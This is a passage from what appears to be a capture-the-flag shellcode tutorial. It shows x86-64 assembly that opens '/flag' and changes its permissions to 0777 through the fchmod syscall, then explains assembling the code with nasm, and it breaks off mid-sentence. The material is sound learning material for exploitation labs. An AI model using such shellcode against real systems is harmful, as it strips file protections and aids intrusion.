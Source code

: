 ```x86asm
syscall # trigger exit()

```

  

Similarly, we can write a shellcode that can change the permissions of a file. For that we have shellcode like:

  

```x86asm

mov rbx, 0x00000067616c662f # push "/flag" filename

push rbx

mov rax, 2 # syscall number of open

mov rdi, rsp # point the first argument at stack (where we have "/flag")

mov rsi, 0 # NULL out the second argument (meaning, O_RDONLY)

syscall # trigger open("/flag", NULL)

mov rdi, rax # first argument to fchmod is the file descriptor returned by open

mov rsi, 0x777 # second argument is the new permissions (0x777 = 0777 = rwxrwxrwx)

mov rax, 94 # syscall number of fchmod

syscall # trigger fchmod(fd, 0x777)

mov rax, 60 # syscall number of exit

syscall # trigger exit()

```

  

### Building Shellcode

We can build our shellcode using any assembler like `as` or `nasm` assembler. For example, we can build the shellcode of above example using:

  

```bash

nasm -f elf64 shellcode.asm

```

and then we need to extract only the text section of the shellcode as it is the only section that contains the shellcode. We can do that using:
